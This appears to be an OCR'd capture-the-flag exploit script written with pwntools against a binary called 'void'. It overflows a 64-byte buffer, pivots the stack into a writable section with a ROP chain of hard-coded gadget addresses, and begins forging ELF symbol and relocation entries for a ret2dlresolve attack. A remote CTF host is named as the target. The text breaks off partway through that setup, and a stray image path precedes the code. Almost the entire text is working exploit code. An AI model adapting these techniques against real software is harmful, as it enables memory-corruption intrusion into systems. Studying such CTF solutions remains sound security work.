 context.binary = exe = ELF('./void',checksec=False)
libc = ELF('./libc.so.6',checksec=False)

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*vuln+25
                b*vuln+32
                c
                ''')
                input()

if args.REMOTE:
        p = remote('178.62.9.10',31314)
else:
        p = process(exe.path)

leave_ret = 0x0000000000401141
pop_rbp = 0x0000000000401109
pop_rdi = 0x00000000004011bb
pop_rsi_r15 = 0x00000000004011b9
rw_section = 0x404a00

# GDB()

#stack pivot
payload = b"a"*64
payload += p64(rw_section)
payload += p64(pop_rsi_r15) + p64(rw_section) + p64(0)
payload += p64(exe.plt['read'])
payload += p64(leave_ret)

p.send(payload)

JMPREL = 0x400430
SYMTAB = 0x400330
STRTAB = 0x400390
link_map = 0x0000000000401020

SYMTAB_addr = 0x404a40
JMPREL_addr = 0x404a68
STRTAB_addr = 0x404a78

symbol_number = int((SYMTAB_addr - SYMTAB)/24)
reloc_arg = int((JMPREL_addr - JMPREL)/24)
st_name = STRTAB_addr - STRTAB

log.info("symbol_number: " + hex(symbol_number))
log.info("reloc_arg: " + hex(reloc_arg))
log.info("st_name: " + hex(st_name))

st_info = 0x12
st_other = 0
st_shndx = 0
st_value = 0
st_size = 0
